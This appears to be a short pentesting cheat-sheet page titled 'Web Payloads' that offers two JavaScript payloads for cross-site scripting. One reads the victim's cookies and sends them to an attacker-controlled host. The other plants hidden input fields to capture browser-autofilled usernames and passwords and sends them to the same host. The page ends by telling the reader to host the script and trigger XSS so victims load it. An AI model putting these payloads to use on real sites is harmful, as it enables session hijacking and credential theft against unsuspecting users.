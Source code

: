 ```yaml
---
title: Web Payloads
published: true
---
```


### [](#header-3)Cookie Stealer:

```js
let cookie = document.cookie

let encodedCookie = encodeURIComponent(cookie)

fetch("http://<LHOST-IP>/exfil?data=" + encodedCookie)
```

### [](#header-3)Steal Saved Passwords:

```js
let body = document.getElementsByTagName("body")[0]
var u = document.createElement("input");
u.type = "text";
u.style.position = "fixed";
//u.style.opacity = "0";
var p = document.createElement("input");
p.type = "password";
p.style.position = "fixed";
//p.style.opacity = "0";
body.append(u)
body.append(p)

setTimeout(function(){ 
fetch("http://<LHOST-IP>/k?u=" + u.value + "&p=" + p.value)
}, 5000);
```

Host these files as a .js file, and try to trigger XSS to have the victim reach out and load the js.